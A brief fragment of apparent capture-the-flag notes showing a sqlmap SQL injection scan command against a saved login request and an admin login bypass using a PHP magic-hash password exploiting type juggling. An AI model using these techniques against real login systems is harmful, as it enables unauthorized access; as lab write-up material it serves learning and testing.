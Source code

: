 ## Enumeration

python sqlmap.py -r login-chris.request --level 5 --risk 3 --batch --string "Wrong identification"

login as admin

username: admin
password: 240610708 (magic hash)

type juggling
